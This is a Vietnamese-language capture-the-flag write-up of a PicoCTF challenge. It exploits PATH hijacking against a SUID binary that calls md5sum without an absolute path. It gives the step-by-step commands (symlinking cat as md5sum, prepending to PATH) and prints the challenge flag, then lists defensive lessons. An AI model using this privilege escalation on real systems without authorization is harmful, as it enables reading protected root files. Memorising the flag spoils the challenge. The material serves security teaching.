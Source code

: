 # Write-up Khai thác lỗ hổng PATH Hijacking trên Binary SUID

## Thông tin Challenge
- Challenge thuộc PicoCTF
- Cần truy cập nội dung file `/root/flag.txt` không có quyền đọc trực tiếp

## Phân tích Lỗ hổng
Khi kiểm tra các file có SUID bit trong hệ thống, phát hiện binary `/usr/local/bin/flaghasher` có quyền SUID (chạy với quyền của owner là root):

```bash
find / -perm -4000 2>/dev/null
```

Binary này thực hiện lệnh MD5 hash file `/root/flag.txt` thông qua lệnh:
```
/bin/bash -c 'md5sum /root/flag.txt'
```

Lỗ hổng nằm ở việc chương trình gọi lệnh `md5sum` theo cách relative path (không chỉ định đường dẫn đầy đủ), khiến nó phải tìm trong biến môi trường PATH.

## Khai thác Step-by-Step

### 1. Tạo thư mục bin trong home directory
```bash
mkdir -p ~/bin
```

### 2. Tạo symbolic link từ md5sum tới cat
```bash
ln -s /bin/cat ~/bin/md5sum
```
Khi thấy thông báo lỗi `File exists`, có nghĩa link đã được tạo trước đó.

### 3. Thay đổi biến môi trường PATH
```bash
export PATH=~/bin:$PATH
```
Điều này khiến hệ thống tìm thư mục ~/bin trước khi tìm thư mục mặc định.

### 4. Kiểm tra lệnh md5sum đang trỏ tới đâu
```bash
which md5sum
```
Kết quả: `/home/ctf-player/bin/md5sum` - xác nhận khai thác thành công.

### 5. Chạy binary SUID
```bash
/usr/local/bin/flaghasher
```

### 6. Kết quả
Thay vì hiển thị MD5 hash như mặc định:
```
4268c8737000b13184189a06b5054d72  /root/flag.txt
```

Chương trình hiển thị nội dung của file flag:
```
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
```

## Bài học về Bảo mật
1. Trong các chương trình có đặc quyền cao (SUID), luôn sử dụng đường dẫn tuyệt đối (absolute path) khi gọi các chương trình khác
2. Cẩn trọng khi sử dụng hàm `system()` trong các chương trình SUID
3. Nên sử dụng các hàm an toàn hơn như `execve()` không phụ thuộc vào shell interpretation
4. Cần sanitize môi trường (environment) trước khi thực thi các lệnh với quyền đặc biệt
5. Các binaries SUID nên được thiết kế với nguyên tắc "principle of least privilege"

Lỗ hổng PATH Hijacking là một kỹ thuật tấn công phổ biến đối với các chương trình SUID không sử dụng đường dẫn tuyệt đối khi gọi chương trình khác.